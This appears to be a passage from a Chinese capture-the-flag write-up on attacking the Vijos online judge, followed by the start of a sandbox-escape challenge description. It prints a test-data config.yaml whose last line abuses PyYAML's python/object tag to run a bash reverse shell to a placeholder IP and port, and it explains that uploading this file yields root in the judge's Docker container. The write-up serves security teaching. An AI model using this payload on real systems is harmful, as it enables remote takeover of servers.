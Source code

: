 `config.yaml` payload文件：

```yaml
default: &default
  time: 1s
  memory: 32m
  score: 10
cases:
- <<: *default
  input: case0.in
  output: case0.out
- <<: *default
  input: case1.in
  output: case1.out
- <<: *default
  input: case2.in
  output: case2.out
- <<: *default
  input: case3.in
  output: case3.out
- <<: *default
  input: case4.in
  output: case4.out
- <<: *default
  input: case5.in
  output: case5.out
- <<: *default
  input: case6.in
  output: case6.out
- <<: *default
  input: case7.in
  output: case7.out
- <<: *default
  input: case8.in
  output: case8.out
- <<: *default
  input: case9.in
  output: case9.out

m: !!python/object/new:os.system ["/bin/bash -c '/bin/bash -i >& /dev/tcp/[ip]/[port] 0>&1'"]
```

通过在Vijos账号中创建自己的域并创建自己的题目，上传修改yaml文件后的测试文件压缩包，随意运行程序即可反弹Shell。拿到Docker下的root权限。

![image-20210813144701111](assets/image-20210813144701111.png)



## Vijos OJ评测机之沙箱逃逸

题目背景：经过上次的Vijos逃逸事件之后，不懂安全的开发者修补了上次漏洞。并痛定思痛决定开始学习安全技术。在学习了安全技术之后，他认为VIJOS的沙箱允许选手在提交的代码中执行任意的系统调用是非常危险的行为，所以他决定对其进行限制，然而，在这个过程中，他又犯了一些错误，这些错误可以导致评测机被攻陷，你能找到这些错误，并利用它们攻陷评测机吗？
